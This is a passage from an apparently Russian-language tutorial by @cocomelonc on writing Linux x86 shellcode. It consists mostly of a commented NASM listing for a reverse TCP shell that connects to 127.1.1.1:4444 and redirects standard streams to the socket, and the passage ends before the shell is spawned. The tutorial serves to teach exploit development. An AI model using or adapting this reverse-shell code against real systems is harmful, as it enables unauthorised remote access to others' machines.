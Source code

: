 Как видите, нам нужно отдельно поместить завершающий `NULL` для строки `/bin//sh` в стек, так как его там нет.    

### финальный полный shellcode

Мой полный shellcode с комментариями:

```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd

```